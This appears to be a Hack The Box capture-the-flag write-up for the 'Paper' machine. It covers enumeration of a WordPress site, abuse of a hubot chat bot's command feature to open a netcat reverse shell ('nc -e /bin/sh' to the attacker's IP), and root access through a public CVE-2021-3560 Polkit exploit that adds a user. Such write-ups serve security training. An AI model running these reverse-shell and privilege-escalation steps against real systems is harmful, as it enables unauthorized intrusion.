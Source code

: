 # htb-writeup-paper

# scan ip address
nmap -sC -sV {ip_address}

## check the open ports and see what can we discover further from it

## Get request to the URL
curl --head {ip_address}

## we get back some interesting information (office.paper)
we can add this information to out /etc/hosts file and visit the URL afterwards

## checking on the website we can see it runs WP, we can get a scan and check if there's anything exploitable
wpscan --url http://{ip_address}

## we discover that the used WP version is vulnerable 
checking the vulnerability we discover how to get to the secret/hidden page

## we add the new discovered page to /etc/hosts
once we're in we are able to start a chat we a 'bot' that can return some interesting things 

## the bot uses hubot which allows to insert custom scripts that can search for files in the directory
so we write in the chat 'list ../hubot/scripts'
afterwards we go to the file 'file ../hubot/scripts/files.js'
reading the .js file we discover we can run commands with 'run'

## on our attack machine we pop up a netcat listener
nc -nlvp {port}

## inside of the chat we run the command 
nc -e /bin/sh <attack_ip> {port}

## and we have a connection, listing the directories we find the one with the user flag!
for a more stable shell we run
python -c 'import pty;pty.spawn("/bin/bash")'

## next we want to check for some privesc, we can use linpeas.sh
to transfer it we start a webserver on out attack machine and from the target we can wget the file

## after transfering the file, we chmod it to be able to run it on the target machine

## with linpeas we discover some interesting files related to the rocket chat and a specific user, we can use that to login into the machine with ssh

## in order to further escalate and get our root flag, we search for an exploit.
I've used the following https://github.com/secnigma/CVE-2021-3560-Polkit-Privilege-Esclation", which enumerates and adds a user

## we run the poc.sh after we chmod it 
adds a user, we try to switch to that specific user using the password 'secnigmaftw' with 'su secnigma'

## in order to get root
we run 'sudo bash' and we insert the previous password we got for the newly added user

## we have root, check the directories and find the flag!
